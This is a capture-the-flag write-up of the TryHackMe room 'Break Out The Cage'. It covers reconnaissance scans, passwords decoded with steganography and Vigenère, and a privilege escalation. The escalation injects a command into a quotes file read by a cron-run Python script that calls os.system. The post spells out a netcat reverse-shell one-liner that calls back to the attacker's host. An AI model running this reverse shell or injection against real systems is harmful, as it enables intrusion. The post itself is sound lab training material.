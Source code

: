 ```yaml
---
title: "Break Out The Cage - TryHackMe"
author: Ludovic COULON
date: 2020-06-18
hero: ./images/hero.jpeg
excerpt: "Writeup for the Break Out The Cage room on TryHackMe"
---
```


[TryHackMe | Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)
Let's find out what his agent is up to....

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.145.194
```

```bash
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜  TryHackMe dirb http://10.10.145.194/ -R

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 15 10:10:41 2020
URL_BASE: http://10.10.145.194/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.145.194/ ----
==> DIRECTORY: http://10.10.145.194/contracts/
==> DIRECTORY: http://10.10.145.194/html/
==> DIRECTORY: http://10.10.145.194/images/
==> DIRECTORY: http://10.10.145.194/auditions/
+ http://10.10.145.194/index.html (CODE:200|SIZE:2453)
==> DIRECTORY: http://10.10.145.194/scripts/
+ http://10.10.145.194/server-status (CODE:403|SIZE:278)
```

<div className="Image__Medium">
  <img src="https://imgur.com/OszNOAo.png" alt="blog_image" />
</div>

As you can see by the title of the file, this mp3 is corrupted let's see if there is something hidden using stenography.

<div className="Image__Medium">
  <img src="https://imgur.com/1VoGSx0.png" alt="blog_image" />
</div>

Yep ! There is something hidden in this file the "password" is : namelesstwo

<div className="Image__Medium">
  <img src="https://imgur.com/gN4KqtG.png" alt="blog_image" />
</div>
<div className="Image__Medium">
  <img src="https://imgur.com/eVBHL57.png" alt="blog_image" />
</div>

[Vigenère Cipher - Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #1 What is Weston's password?

```bash
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #2 What's the user flag?

I tried to use the find command to locate all the txt files but nothing came out..

```
weston@national-treasure:~$ find / -type f -name "user.*" 2>/dev/null
```

Let's try something else .. 😢

<div className="Image__Medium">
  <img src="https://imgur.com/B1Bb9kI.png" alt="blog_image" />
</div>

As you can see there this script that we can execute with root permission let's get a reverse shell 🤤

Wait ...

<div className="Image__Medium">
  <img src="https://imgur.com/fe66YHv.png" alt="blog_image" />
</div>

When I was editing the script I noticed something interesting there is a script that write random quotes, let's find the script 🤨

You can also find the random quotes in the motd

<div className="Image__Medium">
  <img src="https://imgur.com/iQWwMqZ.png" alt="blog_image" />
</div>

```
weston@national-treasure:~$ find / -type f -name "rando*" 2>/dev/null
```

Nothing there.. 😟

```
weston@national-treasure:~$ find / -type f -name "*quotes*" 2>/dev/null
```

AH ! I found it! 😅

<div className="Image__Medium">
  <img src="https://imgur.com/tUotgtl.png" alt="blog_image" />
</div>

```python
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's get a reverse shell

```bash
rm -f /tmp/rev
cat << EOF > /tmp/rev
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.228 4444 >/tmp/f
EOF
chmod +x /tmp/rev
printf 'bop; /tmp/rev\n' > /opt/.dads_scripts/.files/.quotes
```

Wait maybe 1 or two minutes to get a shell

<div className="Image__Medium">
  <img src="https://imgur.com/WBwzInV.png" alt="blog_image" />
</div>

```bash
ls
email_backup
Super_Duper_Checklist
cd Super*
/bin/bash: line 30: cd: Super_Duper_Checklist: Not a directory
cat Super*
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### #3 What's the root flag?

Once you are in the cage account go to this repertory

```bash
/home/cage/email_backup
```

And cat \*

<div className="Image__Medium">
  <img src="https://imgur.com/oi1cWOc.png" alt="blog_image" />
</div>

After a while I figured out that the "password" highlighted is encoded using Vigenère encryption

But as you can see you need to provide some key to decode the password I tried "Face" because on the last paragraph the email repeat many times the word so i guess i had some chance 🥴

<div className="Image__Medium">
  <img src="https://imgur.com/junuXVj.png" alt="blog_image" />
</div>

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('face')&input=aGFpaW5zcHN5YW5pbGVwaA>)

```bash
cageisnotalegend
```

You can also stabilized the shell using the cage's ssh key

<div className="Image__Medium">
  <img src="https://imgur.com/uWyHix4.png" alt="blog_image" />
</div>

Once you stabilized the shell you can just type "su" and type the password that we discover earlier

<div className="Image__Medium">
  <img src="https://imgur.com/ibMOroe.png" alt="blog_image" />
</div>

```bash
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
